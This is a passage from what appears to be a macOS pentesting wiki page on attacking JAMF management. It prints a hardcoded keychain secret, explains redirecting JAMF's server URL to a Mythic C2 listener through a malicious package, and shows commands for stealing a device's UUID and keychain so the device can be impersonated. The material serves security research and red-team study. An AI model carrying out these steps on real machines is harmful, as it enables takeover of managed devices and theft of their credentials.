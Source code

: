 ![](<../../.gitbook/assets/image (7) (1) (1).png>)

#### JAMF device Authentication

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The **`jamf`** binary contained the secret to open the keychain which at the time of the discovery was **shared** among everybody and it was: **`jk23ucnq91jfu9aj`**.\
Moreover, jamf **persist** as a **LaunchDaemon** in **`/Library/LaunchAgents/com.jamf.management.agent.plist`**

#### JAMF Device Takeover

The **JSS** (Jamf Software Server) **URL** that **`jamf`** will use is located in **`/Library/Preferences/com.jamfsoftware.jamf.plist`**.\
This file basically contains the URL:

{% code overflow="wrap" %}
```bash
plutil -convert xml1 -o - /Library/Preferences/com.jamfsoftware.jamf.plist

[...]
	<key>is_virtual_machine</key>
	<false/>
	<key>jss_url</key>
	<string>https://halbornasd.jamfcloud.com/</string>
	<key>last_management_framework_change_id</key>
	<integer>4</integer>
[...]
```
{% endcode %}

So, an attacker could drop a malicious package (`pkg`) that **overwrites this file** when installed setting the **URL to a Mythic C2 listener from a Typhon agent** to now be able to abuse JAMF as C2.

{% code overflow="wrap" %}
```bash
# After changing the URL you could wait for it to be reloaded or execute:
sudo jamf policy -id 0

# TODO: There is an ID, maybe it's possible to have the real jamf connection and another one to the C2
```
{% endcode %}

#### JAMF Impersonation

In order to **impersonate the communication** between a device and JMF you need:

* The **UUID** of the device: `ioreg -d2 -c IOPlatformExpertDevice | awk -F" '/IOPlatformUUID/{print $(NF-1)}'`
* The **JAMF keychain** from: `/Library/Application\ Support/Jamf/JAMF.keychain` which contains the device certificate

With this information, **create a VM** with the **stolen** Hardware **UUID** and with **SIP disabled**, drop the **JAMF keychain,** **hook** the Jamf **agent** and steal its information.
